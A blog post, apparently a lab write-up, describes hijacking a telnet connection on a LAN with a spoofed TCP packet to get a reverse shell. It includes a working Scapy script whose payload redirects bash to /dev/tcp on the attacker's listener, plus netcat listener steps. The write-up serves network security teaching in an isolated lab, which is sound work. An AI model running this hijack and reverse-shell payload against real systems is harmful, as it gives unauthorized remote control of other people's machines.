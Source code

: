 +++
title = "TCP Attack Lab 3 - Obtaining a reverse shell"
date = "2023-05-01"
description = "Exploiting a TCP connection to obtain a reverse shell."

tags = ["network","security","writeups",]
+++


We hijack a TCP connection to give us a reverse shell.

In the second part of this series, we conducted a TCP hijack attack on a `telnet` connection between two users on the same LAN as a malicious actor.

In the third and final installment, we will go a step further to execute not an arbitrary command, but a reverse shell, a powerful technique that is commonly used in system exploits.


# Setup

The set up can be found in the [overview post](/blog/content/posts/tcp-attack-lab).

 
# Hijacking a `telnet` Connection to Obtain a Reverse Shell

Following these steps will hijack a TCP connection between User 1 as the client and User 2 as the server. We will have the server give us a shell in a technique known as a reverse shell exploit.

First, I open Wireshark and monitor the LAN interface. I select the bridge interface starting with "br-". The characters following may change if you stop and start the containers in a separate occurrence.

Then, I use `telnet` to connect from User 1 to User 2.

!["wireshark initial"](/blog/images/tcp-reverse/wireshark-init.png)

Select the bridge interface.

---

Logging in to the `telnet` server (Remember: User 2) from the client generates network traffic that we will use to construct the hijack packet. 

!["telnet"](/images/tcp-reverse/telnet.png)

The telnet connection between User 1 and User 2.

---

The last TCP packet sent from User 1 to User 2 will inform the source port, sequence, and acknowledgement numbers used in the hijack packet we will spoof from the attacker to the server.

!["wireshark data"](/blog/images/tcp-reverse/wireshark-data.png)

Using Wireshark to construct our packet.

---

# Using `netcat` to establish a TCP server

In order to see the output of the command, we will set up a TCP server using `netcat`. 

!["netcat initial"](/blog/images/tcp-reverse/netcat-init.png)

Using netcat to establish a TCP server to display exploit output.

---


# Running the exploit

The following code will send our reverse shell hijack packet:

```python
import argparse
from scapy.all import *

def spoof_hijack_packet(src_port, seq_num, ack_num):
	user1_ip = "10.9.0.6"
	user2_ip = "10.9.0.7"

	user1_port = src_port
	user2_port = 23

	ip = IP(src=user1_ip, dst=user2_ip)
	tcp = TCP(sport=user1_port, dport=user2_port, flags="A", seq=seq_num, ack=ack_num)
	data = "\r /bin/bash -i > /dev/tcp/10.9.0.1/9090 2>&1 0<&1 \r"

	pkt = ip/tcp/data

	print("SENDING REVERSE SHELL PACKET........")
	send(pkt)

if __name__ == "__main__":
	parser = argparse.ArgumentParser()
	parser.add_argument("-p", "--src_port", type=int, help="source port", required=True)
	parser.add_argument("-s", "--seq", type=int, help="last sequence number", required=True)
	parser.add_argument("-a", "--ack", type=int, help="last acknowledgement number", required=True)

	args = parser.parse_args()

	spoof_hijack_packet(args.src_port, args.seq, args.ack)
```

For convenience, I designed the program to take the source port number, sequence number, and acknowledgement numbers as arguments. I invoke it as follows with the data gathered from Wireshark.

!["attack"](/blog/images/tcp-reverse/python-attack.png)

Using netcat to establish a TCP server to display exploit output.

---

The `netcat` TCP server we established on port 9090 has given us a shell into User 2's machine. 

!["netcat after"](/blog/images/tcp-reverse/netcat-after.png)

A reverse shell has been granted.

---

Using this shell, I created a file called foo.txt in /home/seed. We can verify that the file was created. 

!["server"](/blog/images/tcp-reverse/server.png)

Files on the telnet server, User 2.

---

If you were to go back to the `telnet` connection, we see that the connection no longer takes input. This is because the machines have detected the funny business from our spoofed packet.


# That's it!

In this series we explored TCP RST and hijacking attacks and extended the hijacking attack to obtain a reverse shell.


### _Updated: May 1, 2023_